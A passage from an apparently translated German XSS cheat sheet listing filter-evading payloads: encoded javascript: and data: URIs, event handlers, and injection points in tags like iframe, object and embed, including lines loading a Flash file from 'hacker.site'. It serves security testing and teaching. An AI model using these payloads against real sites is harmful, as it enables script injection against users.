 ```javascript
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### Besondere Protokolle innerhalb des Attributs

Dort können Sie die Protokolle **`javascript:`** oder **`data:`** an einigen Stellen verwenden, um **willkürlichen JS-Code** auszuführen. Einige erfordern Benutzerinteraktion, andere nicht.
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**Orte, an denen Sie diese Protokolle injizieren können**

**Im Allgemeinen** kann das `javascript:`-Protokoll **in jedem Tag verwendet werden, der das Attribut `href` akzeptiert** und in **den meisten** der Tags, die das **Attribut `src`** akzeptieren (aber nicht `<img>`)
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
**Andere Obfuskationstricks**
